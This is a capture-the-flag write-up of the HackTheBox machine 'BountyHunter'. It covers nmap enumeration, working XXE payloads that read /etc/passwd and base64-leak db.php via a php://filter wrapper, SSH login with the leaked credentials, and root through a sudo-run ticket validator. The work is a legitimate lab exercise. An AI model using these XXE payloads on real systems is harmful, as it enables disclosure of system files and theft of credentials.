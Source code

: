 ```yaml
---
title: BountyHunter -- Writeup
date: 2021-12-01
categories: [HackTheBox, Easy]
tags: [hackthebox, ctf, xxe]     # TAG names should always be lowercase
---
```


# Summary -
Easy rated Hackthebox machine. To get initial access, have to do XXE with the help of other information. Also, privilege escalation is pretty tricky as well... Have to create a certain .md file in a certain way to abuse it. Overall a fun machine...

# Enumeration -
nmap, here we go...
### nmap -
```bash
# Nmap 7.91 scan initiated Sun Jul 25 05:59:02 2021 as: nmap -T4 -A -p22,80 -oA nmap 10.10.11.100
Nmap scan report for 10.10.11.100
Host is up (0.081s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   106.81 ms 10.10.14.1
2   106.89 ms 10.10.11.100

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 25 05:59:16 2021 -- 1 IP address (1 host up) scanned in 14.23 seconds
```
Two ports are open. 22 ssh and 80 http server.

**port 80** -
Contains some portal which says its in development.
Looks like its using XML as backend. Let's intercept using Burp and see.

![Burp](/assets/img/hackthebox/bountyhacker/1.png)

# Explotation -
So, its sending data with base64 encoding which if we decode then we can see data parsing using XML format. That means we can try XXE here. Yay!

```xml
# Default
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>apache</title>
		<cwe>ads</cwe>
		<cvss>asd</cvss>
		<reward>asd</reward>
		</bugreport>

# XXE for file disclosure
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>ads</cwe>
		<cvss>asd</cvss>
		<reward>asd</reward>
	</bugreport>

# XXE with php filter.
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>ads</cwe>
		<cvss>asd</cvss>
		<reward>asd</reward>
	</bugreport>
```

Okay, so XXE worked. (Make sure to put base64 encoded payload.) With /etc/passwd file disclosure payload.
Hmm... I tried to grab ssh keys but no luck. But fluff showed one interesting file which is db.php maybe we can grab it through XXE and then maybe we can see something.

![ffuf](/assets/img/hackthebox/bountyhacker/9.png)

So... With the help of XXE php wrapper I managed to get that file which showed some creds.

![creds](/assets/img/hackthebox/bountyhacker/2.png)

From /etc/passwd disclosure, there are two users in home directory which are development and sysylog but creds worked for development user. (Read /etc/passwd to confirm this.)

**development:\<redacted\>** #ssh creds

Let's try to ssh to developement with above creds and it should work.

![login](/assets/img/hackthebox/bountyhacker/3.png)

# Post Exploitation -
Let's login as development user.

`sudo -l` revealed interesting file we can execute as root without password...

According to the condition its taking we need to create a manually .md file with certain conditions to abuse it.

![ticket](/assets/img/hackthebox/bountyhacker/4.png)

Run ticketValidator.py as sudo and give path of your .md file and you should get root.

![getroot](/assets/img/hackthebox/bountyhacker/5.png)